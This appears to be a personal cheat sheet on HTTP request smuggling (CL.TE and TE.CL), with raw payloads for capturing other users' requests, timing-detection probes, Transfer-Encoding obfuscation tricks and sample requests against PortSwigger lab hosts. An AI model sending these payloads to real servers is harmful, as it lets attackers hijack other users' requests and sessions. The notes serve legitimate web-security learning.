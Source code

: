 ```yaml
---
layout: app
title: "HTTP Smuggling"
tags: ["Web","Attacks","Host Header"]
---
```


This attack consist in split the HTTP Request using the Transfer-Encoding and Content-Length headers.


# Techniques

[Tag: Smuggling RBleug](https://regilero.github.io/tag/Smuggling/)

# Explanation

## CL.TE

<aside>
<img src="https://cdn4.iconfinder.com/data/icons/office-and-business-conceptual-flat/169/5-256.png" alt="https://cdn4.iconfinder.com/data/icons/office-and-business-conceptual-flat/169/5-256.png" width="40px" /> Server doesn’t support **Transfer-Encoding**

</aside>

![Untitled](/assets/images/cl_te.png)

## TE.CL

![Untitled](/assets/images/TE_CL.png)

## Attacks

### Capture User’s requests

```javascript
POST / HTTP/1.1
Host: 0aa800ab04c168b880ad8fc300bc00ae.web-security-academy.net
Content-Length:477
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0aa800ab04c168b880ad8fc300bc00ae.web-security-academy.net
Cookie: session=QOZiis6EvY1JJXSq7dbZF2fyupBg7WiU
Content-Type: application/x-www-form-urlencoded
Content-Length: 480

csrf=akQkRQRFgsvpwiy6M7yV2jl6PktUoUZ9&postId=5&name=name&email=cyberbob%40ginandjuice.shop&website=https%3A%2F%2Fg.com&comment=GET / HTTP/1.1
Host: 0aa800ab04c168b880ad8fc300bc00ae.web-security-academy.net
Cookie: session=QOZiis6EvY1JJXSq7dbZF2fyupBg7WiU
```

# Detection

## Timing Detection

### CL.TE

```javascript
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
**Content-Length: 4**

1\r\n
A\r\n
**X**
```

**Request**

```javascript
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

### **Response**

```javascript
**GET /404 HTTP/1.1
Foo: x**POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

### TE.CL

```javascript
POST / HTTP/1.1
Host: vulnerable-website.com
**Transfer-Encoding: chunked**
Content-Length: 6

0
\r\n
**X**
```

```javascript
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0\r\n\r\n
```

```javascript
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
\r\n
x=1
0\r\n\r\n
```

# Transfer-Encoding: chunked

When sent with a chunked value, the request will be split into multiple requests and a new line (\r\n) will be added to the end of the each request.

### Try to hide header

```javascript
Transfer-Encoding: xchunked
Transfer-Encoding: chunked
```

```javascript
Transfer-Encoding: chunked
Transfer-Encoding: x
```

```javascript
Transfer-Encoding:[tab]chunked
```

```javascript
GET / HTTP/1.1
  Transfer-Encoding: chunked
```

```javascript
X: X[\n]Transfer-Encoding: chunked
```

```javascript
Transfer-Encoding
  : chunked
```

# CL.TE

Front-End uses `Content-Length` and Back-End uses `Transfer-Encoding`

```javascript
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

## TE.CL

Front-End uses `Transfer-Encoding` and Back-End uses `Content-Length`

```javascript
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

![Untitled](/assets/images/smuggled.png)

### Sample

```javascript
POST / HTTP/1.1
Host: 0aa700fa04eb999b8002a8cf008f0098.web-security-academy.net
Cookie: session=4kjdhYqNrOeKkufPrX3GezgR2twG0AQH
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
Transfer-Encoding: chunked
Content-Length: **4**
Content-Type: application/x-www-form-urlencoded

**5c\r\n**
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
**Content-Length: 15**

x=1
0
```